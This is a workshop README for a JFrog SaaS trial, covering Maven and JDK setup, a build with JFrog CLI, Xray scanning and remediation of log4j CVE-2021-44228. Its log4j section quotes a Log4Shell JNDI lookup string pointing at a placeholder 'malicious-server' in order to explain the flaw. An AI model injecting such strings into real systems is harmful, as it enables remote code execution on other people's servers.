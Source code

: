 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
### JDK 1.8 Installation
<details>
<summary> Click to expand Maven installation steps </summary>

1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://adoptium.net/)

2. **Configure Environment Variables**
   <details>
   <summary>Click to expand configuration steps</summary>

   - **Set JAVA_HOME**
     1. Open System Properties (Win + S → "Environment Variables")
     2. Click "Environment Variables" → "New" under System variables
     3. Set:
        ```
        Variable name: JAVA_HOME
        Variable value: C:\Program Files\Java\jdk-17
        ```
   
   - **Add Java to PATH**
     1. In System variables, select "Path" → "Edit"
     2. Click "New" and add:
        ```
        %JAVA_HOME%\bin
        ```
     3. Click "OK" to save
   </details>

3. **Verify Installation**
   ```bash
   # Check Java version
   java -version
   
   # Check Java compiler
   javac -version
   ```
   
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```
</details>

### Maven 3.6+
<details>
<summary>Click to expand Maven installation steps</summary>

1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://maven.apache.org/download.cgi)
   - Download the Binary zip archive (e.g., `apache-maven-3.9.6-bin.zip`)

📂 2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **Set Environment Variables**
   <details>
   <summary>Click to expand environment variables configuration</summary>

   ### Windows Environment Setup
   
   #### Method 1: Using System Properties
   ```bash
   # 1. Open System Properties
   # Press Win + S and type "Environment Variables"
   # Or right-click on This PC → Properties → Advanced system settings
   
   # 2. Click "Environment Variables" button
   # 3. Under "System variables" section, click "New"
   # 4. Set MAVEN_HOME:
   Variable name:  MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   
   # 5. Find "Path" variable, click "Edit"
   # 6. Click "New" and add:
   %MAVEN_HOME%\bin
   # 7. Click "OK" on all windows to save
   ```

   #### Method 2: Using Command Line
   ```bash
   # Run Command Prompt as Administrator
   
   # Set MAVEN_HOME
   setx MAVEN_HOME "C:\Program Files\Apache\Maven\apache-maven-3.9.6" /M
   
   # Add to PATH
   setx PATH "%PATH%;%MAVEN_HOME%\bin" /M
   ```

   ### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   
   Expected output:
   ```
   Apache Maven 3.9.6 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   Java version: 1.8.0_442, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk1.8.0_442
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

   > **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.
   </details>
</details>

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
Select "14-Day Free Trial", it will give you own JFrog Platform.
![alt text](images/trial.png)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**